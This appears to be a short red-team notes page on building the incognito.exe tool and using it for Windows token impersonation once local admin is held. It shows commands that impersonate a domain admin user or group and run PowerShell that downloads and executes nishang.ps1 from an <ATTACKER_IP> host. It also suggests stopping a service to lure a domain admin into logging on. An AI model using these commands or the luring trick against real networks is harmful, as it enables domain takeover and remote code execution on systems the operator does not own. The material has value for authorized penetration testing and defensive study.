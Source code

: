# Building the `incognito.exe` binary
1. clone the incognito repository [here](https://github.com/FSecureLABS/incognito)
2. make sure you have **Visual Studio** installed with the **"C++ compile workload"** installed
3. open a Developer's Command Prompt from the start menu
4. go to the project folder
5. run the `nmake` command
6. you should get the `incognito.exe` binary as an output

# Scenario: you have local administrator on a machine. And a domain admin is logged on
1. list user tokens `incognito.exe list_tokens -u` or group tokens `incognito.exe list_tokens -g`
2. impersonate any of the available **user** tokens and run a PowerShell command
```shell
incognito.exe execute LAB\Administrator "powershell IEX(New-Object Net.webClient).downloadString('http://<ATTACKER_IP>/nishang.ps1')"
```
3. impersonate any of the available **group** tokens and run a PowerShell command
```shell
incognito.exe execute "LAB\Domain Admins" "powershell IEX(New-Object Net.webClient).downloadString('http://<ATTACKER_IP>/nishang.ps1')"
```

# Tricks:
*in an engagment,* if you have access to an important server and want to lure a domain admin to login, you might stop a service that's not too critical. this will make him/her eventually come over to take care of it.

you can think of other creative ways to entice a domain admin to log on to the server.